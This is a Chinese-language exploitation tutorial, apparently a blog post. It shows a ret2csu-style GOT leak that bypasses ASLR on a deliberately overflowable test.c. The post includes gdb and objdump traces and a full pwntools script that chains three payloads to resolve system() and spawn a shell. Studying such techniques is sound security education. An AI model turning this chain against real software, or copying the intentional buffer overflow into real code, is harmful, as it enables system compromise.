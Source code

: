 ```yaml
---
title: leak_got_addr
data: 2017-11-15
tag: pwn
layout: post
---
```


> this is a test, not true

## 0x00准备

- 本次实验的机器为`Ubuntu 16.04.2 LTS`64位系统

- 用`gcc`编译需要关闭`stack-protector`

- 需要`gdb` `peda` `pwntools`

- 攻击目标`test.c`

  ```c
  #include<unistd.h>
  int main(){
  	char buf[10];
  	write(1,"2333\n",5);
  	read(0,buf,256);
  	return 0;
  }
  ```

## 0x01分析

这次把栈溢出的保护几乎都打开了，`ASLR`使得无法通过`ret2libc`来获得shell，栈上也没有可执行权限。所以可以通过`write`函数leak一个函数在内存中的地址（它是随机的），然后根据`libc.so.6`文件中`system`与`write`的相对地址，推算出`system`在本次运行中的内存中的地址。

这里可以利用一个Linux下的特性，**lazy binding**，简单来说，GOT 表的初始值都指向 PLT 表对应条目中的某个片段，这个片段的作用是调用一个函数地址解析函数。当程序需要调用某个外部函数时，首先到 PLT 表内寻找对应的入口点，跳转到 GOT 表中。如果这是第一次调用这个函数，程序会通过 GOT 表再次跳转回 PLT 表，运行地址解析程序来确定函数的确切地址，并用其覆盖掉 GOT 表的初始值，之后再执行函数调用。当再次调用这个函数时，程序仍然首先通过 PLT 表跳转到 GOT 表，此时 GOT 表已经存有获取函数的内存地址，所以会直接跳转到函数所在地址执行函数。

第一次函数调用：
![第一次调用函数](https://raw.githubusercontent.com/void0red/Pictures/master/blog/leak_gotaddr_0.png)
以后的函数调用：
![以后的函数调用](https://raw.githubusercontent.com/void0red/Pictures/master/blog/leak_gotaddr_1.png)

例如：下面的执行流处于调用`write`函数的上面

```
   0x40056e <main+8>:	mov    edx,0x5
   0x400573 <main+13>:	mov    esi,0x400624
   0x400578 <main+18>:	mov    edi,0x1
=> 0x40057d <main+23>:	call   0x400430 <write@plt>
   0x400582 <main+28>:	lea    rax,[rbp-0x10]
   0x400586 <main+32>:	mov    edx,0x100
   0x40058b <main+37>:	mov    rsi,rax
   0x40058e <main+40>:	mov    edi,0x0
```

跟进去

```
  0x400420:	push   QWORD PTR [rip+0x200be2]        # 0x601008
   0x400426:	jmp    QWORD PTR [rip+0x200be4]        # 0x601010
   0x40042c:	nop    DWORD PTR [rax+0x0]
=> 0x400430 <write@plt>:	jmp    QWORD PTR [rip+0x200be2]        # 0x601018
 | 0x400436 <write@plt+6>:	push   0x0
 | 0x40043b <write@plt+11>:	jmp    0x400420
 | 0x400440 <read@plt>:	jmp    QWORD PTR [rip+0x200bda]        # 0x601020
 | 0x400446 <read@plt+6>:	push   0x1
 |->   0x400436 <write@plt+6>:	push   0x0
       0x40043b <write@plt+11>:	jmp    0x400420
       0x400440 <read@plt>:	jmp    QWORD PTR [rip+0x200bda]        # 0x601020
       0x400446 <read@plt+6>:	push   0x1
                                                                  JUMP is taken
```

指令准备发生跳转到`0x400420`处，而`0x400420`处的指令即是跳转到`0x601010`，`0x601010`处存储的是解析函数实际地址的指令地址

```
  0x40041c:	add    BYTE PTR [rax],al
   0x40041e:	add    BYTE PTR [rax],al
   0x400420:	push   QWORD PTR [rip+0x200be2]        # 0x601008
=> 0x400426:	jmp    QWORD PTR [rip+0x200be4]        # 0x601010
 | 0x40042c:	nop    DWORD PTR [rax+0x0]
 | 0x400430 <write@plt>:	jmp    QWORD PTR [rip+0x200be2]        # 0x601018
 | 0x400436 <write@plt+6>:	push   0x0
 | 0x40043b <write@plt+11>:	jmp    0x400420
 |->   0x7ffff7dee870 <_dl_runtime_resolve_avx>:	push   rbx
       0x7ffff7dee871 <_dl_runtime_resolve_avx+1>:	mov    rbx,rsp
       0x7ffff7dee874 <_dl_runtime_resolve_avx+4>:	and    rsp,0xffffffffffffffe0
       0x7ffff7dee878 <_dl_runtime_resolve_avx+8>:	sub    rsp,0x180
                                                                  JUMP is taken
```

上面的`_dl_runtime_resolve_avx`函数就是解析实际地址的指令

## 0x02查找可用的gadgets

因为`write`函数至少需要三个参数，所以需要找到`rdi，rsi，rdx`来传递参数，这个时候，`<__libc_csu_init>`函数就比较好用了，用`objdump -S test`来查看所有的汇编代码

```
00000000004005a0 <__libc_csu_init>:
  4005a0:	41 57                	push   %r15
  4005a2:	41 56                	push   %r14
  4005a4:	41 89 ff             	mov    %edi,%r15d
  4005a7:	41 55                	push   %r13
  4005a9:	41 54                	push   %r12
  4005ab:	4c 8d 25 5e 08 20 00 	lea    0x20085e(%rip),%r12        # 600e10 <__frame_dummy_init_array_entry>
  4005b2:	55                   	push   %rbp
  4005b3:	48 8d 2d 5e 08 20 00 	lea    0x20085e(%rip),%rbp        # 600e18 <__init_array_end>
  4005ba:	53                   	push   %rbx
  4005bb:	49 89 f6             	mov    %rsi,%r14
  4005be:	49 89 d5             	mov    %rdx,%r13
  4005c1:	4c 29 e5             	sub    %r12,%rbp
  4005c4:	48 83 ec 08          	sub    $0x8,%rsp
  4005c8:	48 c1 fd 03          	sar    $0x3,%rbp
  4005cc:	e8 2f fe ff ff       	callq  400400 <_init>
  4005d1:	48 85 ed             	test   %rbp,%rbp
  4005d4:	74 20                	je     4005f6 <__libc_csu_init+0x56>
  4005d6:	31 db                	xor    %ebx,%ebx
  4005d8:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
  4005df:	00 
  4005e0:	4c 89 ea             	mov    %r13,%rdx
  4005e3:	4c 89 f6             	mov    %r14,%rsi
  4005e6:	44 89 ff             	mov    %r15d,%edi
  4005e9:	41 ff 14 dc          	callq  *(%r12,%rbx,8)
  4005ed:	48 83 c3 01          	add    $0x1,%rbx
  4005f1:	48 39 eb             	cmp    %rbp,%rbx
  4005f4:	75 ea                	jne    4005e0 <__libc_csu_init+0x40>
  4005f6:	48 83 c4 08          	add    $0x8,%rsp
  4005fa:	5b                   	pop    %rbx
  4005fb:	5d                   	pop    %rbp
  4005fc:	41 5c                	pop    %r12
  4005fe:	41 5d                	pop    %r13
  400600:	41 5e                	pop    %r14
  400602:	41 5f                	pop    %r15
  400604:	c3                   	retq   
  400605:	90                   	nop
  400606:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
  40060d:	00 00 00 
```

可以看到从`0x4005fa`开始，进行了弹栈，可以控制`rbx，rbp，r12，r13，r14，r15`的值，配合`0x4005e0`处的指令，就可以控制`edi，rsi，rdx`的值了，要注意的是`0x4005f4`处有一个跳转指令，要让跳转失效，就必须让`rbp==rbx`，继续向前看，`0x4005ed`处让`rbx`加上了1，`0x4005e9`处的意思是调用`r12+rbx×8`处的指令，不妨让`rbx=0`，`rbp=1`

## 0x03编写payload

尝试了一下新工具`pwntools`

```python
from pwn import *


libc = ELF('./libc.so.6')
elf = ELF('./test')
return_offset = 24
got_write = elf.got['write']
got_read = elf.got['read']
gadget0_addr = 0x4005fa
gadget1_addr = 0x4005e0
main_addr = 0x400566
bss_addr = 0x601040
symbols_offset = libc.symbols['write'] - libc.symbols['system']

payload1 = 'a' * return_offset
payload1 += p64(gadget0_addr) + p64(0) + p64(1) + p64(got_write) + p64(8) + p64(got_write) + p64(1)
payload1 += p64(gadget1_addr)
payload1 += 'a' * 56
payload1 += p64(main_addr)

r = process('./test')
r.recvuntil('2333\n')

print '--------payload1'

r.send(payload1)
sleep(1)

write_addr = u64(r.recv(8))
system_addr = write_addr - symbols_offset
r.recvuntil('2333\n')

payload2 = 'a' * return_offset
payload2 += p64(gadget0_addr) + p64(0) + p64(1) + p64(got_read) + p64(16) + p64(bss_addr) + p64(0)
payload2 += p64(gadget1_addr)
payload2 += 'a' * 56
payload2 += p64(main_addr)

print '--------payload2'
r.send(payload2)
sleep(1)
r.send(p64(system_addr))
r.send('/bin/sh\0')
sleep(1)
r.recvuntil('2333\n')

payload3 = 'a' * return_offset
payload3 += p64(gadget0_addr) + p64(0) + p64(1) + p64(bss_addr) + p64(0) + p64(0) + p64(bss_addr + 8)
payload3 += p64(gadget1_addr)

print '--------payload3'
r.send(payload3)
sleep(1)

r.interactive()
```

三段payload的结构大致相似，首先一段padding，填充到`read`函数的返回地址之前，然后让程序跳转到`pop...`处，接下来，是需要`pop`对象：

第一个0是存进`rbx`的，第二个1是存进`rbp`的，接下来是`write`函数在GOT表中的地址，存进`r12`，也就是第二个`gadget`中`call`的对象，然后是`write`函数的三个参数（注意寄存器顺序），其中第二个参数是`write`函数在GOT表中的地址，因为已经执行过`write`函数了（现在执行流就在`write`函数里面），所以这个地址存放的指令不再是跳转，解析，而是`write`函数在内存中的实际地址，这样就让程序`leak`出了一段真实地址

现在payload已经完成了所有值的传递，接着是第二段`gadget`，然后为了让程序回到`main`函数里面（保住接着溢出攻击），用54字节的padding填充弹栈行为，劫持到`0x400604`处的`retq`指令，回到`main`函数

然后两个`payload`和第一个结构类似，第二个`payload`将`system`的实际地址，以及`/bin/sh`存入`.bss`段中，第三个`payload`则是调用`system`函数，实现getshell

## 0x04总结

通过`leak_gotaddr`，可以获得函数的真实地址，也就是绕过了`ASLR`的保护